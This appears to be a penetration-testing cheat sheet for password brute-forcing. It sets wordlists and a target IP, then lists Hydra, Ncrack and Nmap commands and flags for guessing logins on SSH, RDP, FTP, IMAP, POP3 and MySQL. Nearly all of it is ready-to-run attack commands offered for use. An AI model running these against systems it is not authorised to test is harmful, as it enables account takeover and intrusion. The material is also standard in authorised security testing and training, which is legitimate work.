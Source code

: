 
Set **U**sername/**P**assword list and **T**arget host.
```shell
ULIST="/usr/share/wordlists/brutespray/mysql/user"
PLIST="/usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt"
T="192.168.0.1"
```

Useful **Nmap** parameters:
```shell
--script-args userdb="${ULIST}",passdb="${PLIST}",brute.firstOnly
```

Useful **Ncrack** parameters:
```shell
-U "${ULIST}"
-P "${PLIST}"
```

Useful **Hydra** parameters:
```shell
-t4      # Limit to 4 tasks
-l root  # Set username
-V       # Show each login/password attempt
-s 31337 # Set port
-S       # Use SSL
-f       # Exit after first valid login
```


```shell
## SSH
nmap -p 22 --script ssh-brute --script-args ssh-brute.timeout=4s "$T"
ncrack -P "${PLIST}" --user root "ssh://${T}"
hydra -P "${PLIST}" -l root "ssh://$T"
```

```shell
## Remote Desktop Protocol / RDP
ncrack -P "${PLIST}" --user root -p3389 "${T}"
hydra -P "${PLIST}" -l root "rdp://$T"
```

```shell
## FTP
hydra -P "${PLIST}" -l user "ftp://$T"
```

```shell
## IMAP (email)
nmap -p 143,993 --script imap-brute "$T"
```

```shell
## POP3 (email)
nmap -p110,995 --script pop3-brute "$T"
```

```shell
## MySQL
nmap -p3306 --script mysql-brute "$T"
```
